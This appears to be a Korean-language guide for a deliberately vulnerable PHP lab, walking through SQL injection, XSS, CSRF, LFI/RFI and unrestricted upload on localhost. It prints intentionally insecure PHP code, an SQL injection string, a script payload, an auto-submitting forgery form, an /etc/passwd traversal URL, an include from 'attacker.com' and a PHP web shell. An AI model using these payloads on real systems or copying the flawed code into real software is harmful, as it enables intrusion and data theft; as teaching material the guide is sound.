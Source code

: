  # 보안 취약점 테스트 가이드

이 문서는 프로젝트에 존재하는 다양한 보안 취약점을 테스트하는 방법을 안내합니다.

---

## 1. SQL Injection (SQL 삽입)

- **취약한 파일**: `web/board.php`
- **설명**: 사용자의 입력값이 SQL 쿼리에 직접 삽입되어 데이터베이스를 조작할 수 있습니다. `board.php`에서 게시글을 작성할 때, 입력 내용이 필터링 없이 쿼리에 포함되어 취약점이 발생합니다.
- **취약한 코드**:
  ```php
  $content = $_POST['content'];
  $username = $_SESSION['username'];
  $sql = "INSERT INTO board (username, content) VALUES ('$username', '$content')"; // SQL Injection
  ```
- **실습 방법**:
  1. 로그인 후 게시판에 접속합니다.
  2. 게시글 내용에 다음과 같은 SQL 쿼리를 입력하여 다른 사용자의 게시글을 강제로 수정합니다.
     ```sql
     ', content = 'Hacked' WHERE id = 1; -- 
     ```

---

## 2. XSS (Cross-Site Scripting)

- **취약한 파일**: `web/board.php`
- **설명**: 사용자가 입력한 스크립트가 필터링 없이 그대로 데이터베이스에 저장되고, 다른 사용자의 웹 브라우저에서 실행되어 세션 탈취 등의 공격이 가능합니다.
- **취약한 코드**:
  ```php
  echo $row["content"]; // XSS
  ```
- **실습 방법**:
  1. 로그인 후 게시판에 접속합니다.
  2. 게시글 내용에 악성 스크립트를 포함하여 작성합니다.
     ```html
     <script>alert('XSS Attack!');</script>
     ```
  3. 해당 게시글을 다른 사용자가 조회하면, 해당 사용자의 브라우저에서 스크립트가 실행됩니다.

---

## 3. CSRF (Cross-Site Request Forgery)

- **취약한 파일**: `web/board.php`
- **설명**: 게시글 작성 폼에 CSRF 토큰이 없어, 공격자가 만든 악성 페이지를 통해 로그인된 사용자가 자신도 모르게 게시글을 작성하게 만들 수 있습니다.
- **실습 방법**:
  1. 공격자는 다음과 같은 HTML 코드로 악성 웹 페이지를 제작합니다.
     ```html
     <html>
       <body>
         <form action="http://localhost/board.php" method="POST">
           <input type="hidden" name="content" value="CSRF Attack Post" />
         </form>
         <script>document.forms[0].submit();</script>
       </body>
     </html>
     ```
  2. 로그인된 사용자가 이 페이지를 방문하면, 자동으로 "CSRF Attack Post"라는 내용의 게시글이 작성됩니다.

---

## 4. Directory Traversal, LFI, RFI

- **취약한 파일**: `web/file_viewer.php`
- **설명**: 파일 경로에 대한 검증이 없어, 사용자가 서버의 다른 디렉토리에 있는 파일에 접근하거나, 원격 서버의 파일을 포함시켜 실행할 수 있습니다.
- **취약한 코드**:
  ```php
  $file = $_GET['file'];
  include($file);
  ```
- **실습 방법**:
  - **Directory Traversal / LFI (로컬 파일 포함)**:
    ```
    http://localhost/file_viewer.php?file=../../../../etc/passwd
    ```
  - **RFI (원격 파일 포함)**: `php.ini`에서 `allow_url_include=On` 설정이 필요합니다.
    ```
    http://localhost/file_viewer.php?file=http://attacker.com/evil.txt
    ```

---

## 5. Unrestricted File Upload (악성 파일 업로드)

- **취약한 파일**: `web/upload.php`
- **설명**: 파일 업로드 시 확장자나 파일 타입을 검사하지 않아, 공격자가 웹 쉘과 같은 악성 스크립트 파일을 업로드하여 서버에서 임의의 명령을 실행할 수 있습니다.
- **실습 방법**:
  1. `shell.php`와 같은 간단한 웹 쉘을 준비합니다.
     ```php
     <?php
       if (isset($_GET['cmd'])) {
         system($_GET['cmd']);
       }
     ?>
     ```
  2. `upload.php` 페이지를 통해 이 파일을 업로드합니다.
  3. 업로드된 쉘 파일에 접속하여 `cmd` 파라미터로 시스템 명령어를 실행합니다.
     ```
     http://localhost/uploads/shell.php?cmd=ls%20-l
     ```
